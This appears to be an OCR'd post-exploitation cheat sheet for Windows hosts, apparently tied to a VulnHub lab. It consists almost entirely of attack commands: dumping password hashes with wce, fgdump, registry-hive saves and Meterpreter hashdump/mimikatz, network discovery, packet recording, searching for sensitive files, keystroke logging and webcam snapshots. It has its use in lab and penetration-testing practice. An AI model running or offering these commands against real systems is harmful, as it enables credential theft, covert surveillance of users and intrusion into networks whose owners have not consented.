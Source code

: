 ### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

# Loot passwords without tools
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql
hashdump
keysscan_start
keyscan_dump
keyscan_stop
webcam_snap

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```

      Stapler _ VulnHub
